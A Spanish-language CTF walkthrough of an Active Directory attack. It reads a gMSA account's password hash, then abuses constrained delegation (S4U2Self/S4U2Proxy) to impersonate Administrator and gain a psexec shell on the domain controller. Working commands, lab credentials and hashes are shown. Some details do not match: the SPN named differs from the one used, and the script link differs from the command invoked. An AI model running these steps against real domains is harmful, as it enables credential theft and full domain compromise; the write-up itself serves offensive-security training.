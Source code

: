 # GMSA abusing and s4u delegation attack [ReadGMSAPassword] + [AllowedToDelegate]

## Descripción del ataque

Este ataque aprovecha dos permisos clave para comprometer un entorno de Active Directory mediante una **cuenta de servicio administrada de grupo (gMSA)**:

1. **ReadGMSAPassword**: Este permiso permite leer la contraseña Kerberos asociada a la cuenta gMSA. Utilizando herramientas como [`gMSADumper.py`](https://github.com/micahvandeusen/gMSADumper), se extrae el hash NTLM de la cuenta de servicio, lo que proporciona acceso inicial para realizar operaciones en su contexto.

2. **AllowedToDelegate**: Este permiso habilita la delegación de credenciales, lo que permite a la cuenta gMSA actuar en nombre de otros usuarios. Combinando los ataques **S4U2Self** y **S4U2Proxy**, es posible generar un **Ticket de Servicio (ST)** para un SPN arbitrario (por ejemplo, `cifs/dc.intelligence.htb`) e impersonar a un usuario privilegiado como `Administrator`.

El resultado final es el acceso a recursos protegidos o sistemas críticos, explotando la configuración indebida de permisos en la cuenta gMSA.

## Objetivo y ejemplo de uso en un CTF

- El objetivo es obtener un **Ticket de Servicio (ST)** para un SPN arbitrario (como `cifs/dc.intelligence.htb`) **impersonando a un usuario privilegiado**, aprovechando que la cuenta `svc_int$` tiene permiso para delegar.

---

![Diagrama del ataque](./GMSA-abuse.png)

---

## Herramientas utilizadas

- [`gMSADumper`](https://github.com/micahvandeusen/gMSADumper)
- [`Impacket`](https://github.com/fortra/impacket)
    - [`getTGT.py`](https://github.com/fortra/impacket/blob/master/examples/getTGT.py)
    - [`getST.py`](https://github.com/fortra/impacket/blob/master/examples/getST.py)
- [`ntpdate`](https://man7.org/linux/man-pages/man8/ntpdate.8.html)
- [`nxc`](https://github.com/NextCry/nxc)

---

### Pasos del ataque

1. Ejecutar `gMSADumper.py` para extraer el hash NTLM de la cuenta `svc_int$`:
     ```bash
     python3 gMSADumper.py -u 'TED.GRAVES' -p 'Mr.Teddy' -d 'intelligence.htb'
     ```
     Resultado:
     ```
     svc_int$:::b05dfb2636385604c6d36b0ca61e35cb
     ```

2. Utilizar `getTGT.py` para obtener un TGT usando el hash NTLM de `svc_int$`:
     ```bash
     getTGT.py 'INTELLIGENCE.HTB/svc_int$' -hashes :b05dfb2636385604c6d36b0ca61e35cb
     export KRB5CCNAME=/home/kali/svc_int$.ccache
     ```

3. Impersonar al usuario `Administrator` con `getST.py`:
     ```bash
     getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes :b05dfb2636385604c6d36b0ca61e35cb
     ```
     Resultado:
     ```
     [*] Requesting S4U2Proxy
     [*] Saving ticket in Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
     ```

4. Exportar el nuevo ticket:
     ```bash
     export KRB5CCNAME=Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
     ```

5. Conectarse al sistema objetivo con `psexec.py`:
     ```bash
     psexec.py -k -no-pass INTELLIGENCE.HTB/Administrator@dc.intelligence.htb
     ```

     Ejemplo de salida:
     ```
     Microsoft Windows [Version 10.0.17763.1879]
     (c) 2018 Microsoft Corporation. All rights reserved.

     C:\Windows\system32> type c:\Users\Administrator\Desktop\root.txt
     1375c5a7e7b13d7d9e063dd4629cb806
     ```

---


## Versión en powershell
- [Script](https://raw.githubusercontent.com/gtworek/PSBits/refs/heads/master/Misc/EnableSeRestorePrivilege.ps1)
- `. .\Invoke-GMSAPasswordReader.ps1`
- Invoke-GMSAPasswordReader -Command "--AccountName USERNAME"

```powershell

Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 618DE65B979E02BA8D4118394450BA41
[*]       aes128_cts_hmac_sha1 : ED920AFCE973A7275C2E704311A13B02
[*]       aes256_cts_hmac_sha1 : 014BB8032BF1D4041F63B63BABD2065A425849953F0DC216643E0758C575BED9
[*]       des_cbc_md5          : 2A40AB6BAD9201B0

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 007A95BE1BE6ED38DEB848A388655B05
[*]       aes128_cts_hmac_sha1 : 92627F30F3BAEFD4BCE8E6CC6BF2C601
[*]       aes256_cts_hmac_sha1 : 203AA540B041FE0E2D6718A3FCCB11DAE2EA659B6844C3B324DEEBEF52E10FBD
[*]       des_cbc_md5          : BAC21A8F5D1576C2


```



## Referencias


### ReadGMSAPassword

- [Retrieving Cleartext gMSA Passwords from Active Directory](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)
- [DSInternals PowerShell Module](https://www.powershellgallery.com/packages/DSInternals/)
- [PSgMSAPwd](https://github.com/markgamache/gMSA/tree/master/PSgMSAPwd)
- [Active Directory Security - gMSA](https://adsecurity.org/?p=36)
- [Active Directory Security - Delegation Abuse](https://adsecurity.org/?p=2535)
- [Event ID 4662](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4662)
- [The Hacker Recipes - ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)

### AllowedToDelegate

- [S4U - Rubeus](https://github.com/GhostPack/Rubeus#s4u)
- [Trust: Years to Earn, Seconds to Break](https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/)
- [S4U2Pwnage](https://blog.harmj0y.net/activedirectory/s4u2pwnage/)
- [Gentil Kiwi - S4U Tweet](https://twitter.com/gentilkiwi/status/806643377278173185)
- [Kerberos Delegation, SPNs, and More](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more)
- [From Kekeo to Rubeus](https://blog.harmj0y.net/redteaming/from-kekeo-to-rubeus/)
- [Another Word on Delegation](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
- [The Hacker Recipes - Delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained)
